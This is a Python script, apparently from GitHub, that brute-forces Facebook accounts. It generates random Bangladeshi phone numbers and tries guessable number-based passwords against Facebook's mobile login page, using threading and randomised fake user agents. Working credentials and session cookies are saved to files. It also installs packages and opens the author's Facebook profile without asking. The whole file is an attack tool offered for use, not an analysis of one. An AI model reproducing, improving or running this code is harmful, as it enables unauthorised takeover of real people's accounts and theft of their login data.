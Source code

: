 
import os,sys,time,json,random,re,string,platform,base64,uuid
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from os import system as s
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    os.system('pkg install espeak')
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' 
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' 
M = '\x1b[1;91m' 
H = '\x1b[1;92m' 
K = '\x1b[1;93m' 
B = '\x1b[1;94m' 
U = '\x1b[1;95m' 
O = '\x1b[1;96m' 
N = '\x1b[0m'    
A = '\x1b[1;90m' 
BN = '\x1b[1;107m' 
BBL = '\x1b[1;106m' 
BP = '\x1b[1;105m' 
BB = '\x1b[1;104m' 
BK = '\x1b[1;103m' 
BH = '\x1b[1;102m' 
BM = '\x1b[1;101m' 
BA = '\x1b[1;100m' 
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today() 
loop = 0
oks = []
cps = []
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
 prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
 open('.prox.txt','w').write(prox)
except Exception as e:
 print('')
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android 11;'
    b=random.choice(['6','7','8','9','10','11','12'])
    c='fr-fr; Redmi Note 11 Build/'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Version/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l=' Chrome/89.0.4389.116 Mobile Safari/537.36 XiaoMi/MiuiBrowser/12.22.0.3-gn'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
#Mozilla/5.0 (Linux; U; Android 11; fr-fr; Redmi Note 11 Build/RKQ1.211001.001) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/89.0.4389.116 Mobile Safari/537.36 XiaoMi/MiuiBrowser/12.22.0.3-gn
#Mozilla/5.0 (Linux; Android 13; Redmi Note 10 Pro) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36
    aa='Mozilla/5.0 (Linux; Android 13;'
    b=random.choice(['7.0','8.1.0','9','10','11','12'])
    c=random.choice(['Redmi Note 10 Pro'])
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko)'
    h=random.randrange(80,103)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Chrome/107.0.0.0 Mobile Safari/537.36'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
    
    
    aa='Mozilla/5.0 (Linux; Android 10;'
    b=random.choice(['7.0','8.1.0','9','10','11','12'])
    c=random.choice(['Redmi Note 10 Pro'])
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko)'
    h=random.randrange(80,103)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Chrome/107.0.0.0 Mobile Safari/537.36'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
	
    aa='Mozilla/5.0 (Linux; Android 12;'
    b=random.choice(['7.0','8.1.0','9','10','11','12'])
    c=random.choice(['Redmi Note 10 Pro'])
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko)'
    h=random.randrange(80,103)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Chrome/107.0.0.0 Mobile Safari/537.36'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
	
	
    aa='Mozilla/5.0 (Linux; Android 11;'
    b=random.choice(['7.0','8.1.0','9','10','11','12'])
    c=random.choice(['Redmi Note 10 Pro'])
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko)'
    h=random.randrange(80,103)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Chrome/107.0.0.0 Mobile Safari/537.36'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
    
    aa='Mozilla/5.0 (Linux; Android 9;'
    b=random.choice(['7.0','8.1.0','9','10','11','12'])
    c=random.choice(['Redmi Note 10 Pro'])
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko)'
    h=random.randrange(80,103)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Chrome/107.0.0.0 Mobile Safari/537.36'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
os.system('xdg-open https://www.facebook.com/hafejmdshoriful.shorif?mibextid=ZbWKwL')

logo = ("""
  
      _____ __  ______  ____  __________
     / ___// / / / __ \/ __ \/  _/ ____/
     \__ \/ /_/ / / / / /_/ // // /_    
    ___/ / __  / /_/ / _, _// // __/    
   /____/_/ /_/\____/_/ |_/___/_/       
   --------------------------------                                             
\033[1;94m  [+]===============================================[+]
\033[1;94m  [+]        CREATED BY   :  SHORIF IN              \033[1;94m[+]
\033[1;94m  [+]        ON GITHUB    :  SHORIF-IN              \033[1;94m[+]
\033[1;94m  [+]        TEAM         :  ANONYMOUS CYBER        \033[1;94m[+]
\033[1;94m  [+]        TOOL VERSION :  0.5                    \033[1;94m[+]
\033[1;94m  [+]        TOOL STATUS  :  RANDOM CLONING         \033[1;94m[+]
\033[1;94m  [+]        COUNTRY      :  BANGLADESH             \033[1;94m[+]
\033[1;94m  [+]===============================================[+]
""")                                              

class Main:
    def __init__(self):
        self.id = []
        self.ok = []
        self.cp = []
        self.loop = 0
        os.system("clear")
        print(logo)        
        print(" [01] RANDOM  NUMBER CLONE \033[1;34m")
        print(" [02] MY fACEBOOK ACCOUNT  \033[1;35m")
        print(" [00] Exit")        
        Alif =input(" [?] Choose : ")
        os.system('xdg-open https://www.facebook.com/hafejmdshoriful.shorif?mibextid=ZbWKwL/')
        if Alif in ["1", "01"]:
            num()
        if Alif in ["2","02"]:
            os.system('xdg-open https://www.facebook.com/hafejmdshoriful.shorif?mibextid=ZbWKwL')
        if Alif in [" 0", "00"]:
            exit()
        else:
            exit()
def num():
    user=[]
    os.system('clear')
    print(logo)
    print(' [+] EXAMPLE : 017, 018, 019, 016, 013, 014 ')
    
    kode = input(' [?] Enter sim code: ')
    kodex = ''.join(random.choice(string.digits) for _ in range(2))
    kod = ''.join(random.choice(string.digits) for _ in range(2))
    os.system('clear')
    print(logo)
    print(' [+] EXAMPLE : 3000, 5000, 10000, 50000 ')
   
    limit = int(input(' [?] Crack Your Limit : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as noob:
        os.system('clear')
        print(logo)     
        tl = str(len(user))
        print("\033[1;32m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m═══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m═══")
        print(' \033[1;97m[+] Total ids:\033[1;92m '+tl)
        print(' \033[1;97m[+] Process has been started')
        print(' \033[1;97m[+] Wait for ids ')
        print(' \033[1;97m[+] Use Airplane mode ON/OFF for speed up ')
        print("\033[1;32m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m═══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m══\x1b[1;91m══\033[1;32m══\033[1;31m══\x1b[1;94m══\x1b[1;96m═══")
        for guru in user:
            uid = kode+kodex+kod+guru
            pwx = [kode+kodex+kod+guru,kod+guru,kodex+guru,kode+kodex+kod,]
            noob.submit(rcrack1,uid,pwx,tl)
    print(' [+] Crack process has been completed')
    print(' [+] Ids saved in ok.txt,cp.txt')

def rcrack1(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            sys.stdout.write('\r[\033[1;92mSHORIF\033[1;97m] > [%s/%s] > [OK\033[1;97m:-\033[1;92m%s\033[1;97m] - [CP\033[1;97m:-\033[1;91m%s\033[1;97m] \r'%(loop,tl,len(oks),len(cps))),
            sys.stdout.flush()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'free.facebook.com',
            'method':'POST',
            'path':'/login/device-based/regular/login/?refsrc=deprecated&lwv=101&ref=dbl',
            'scheme':'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'referer': 'https://free.facebook.com/',
            'sec-ch-ua': '"Chromium";v="111", "Not(A:Brand";v="8"',
            'sec-ch-ua-mobile': '?0',
            'sec-ch-ua-platform': '"Linux"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro }
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc=deprecated&lwv=100&refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f"\033[38;5;46m[SHORIF-OK💚] {uid} | {ps}")
                print(f" Cookie : {coki}")
                open('/sdcard/ok.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[82:97]
                print(f"\x1b[38;5;196m[SHORIF-CP🔪] {uid}|{ps}")
                open('/sdcard/cp.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\033[m[SHORIF🔥] \033[1;92m%s\033[m |\033[m[\033[mOK:\033[1;92m%s\033[m] '%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass
Main()

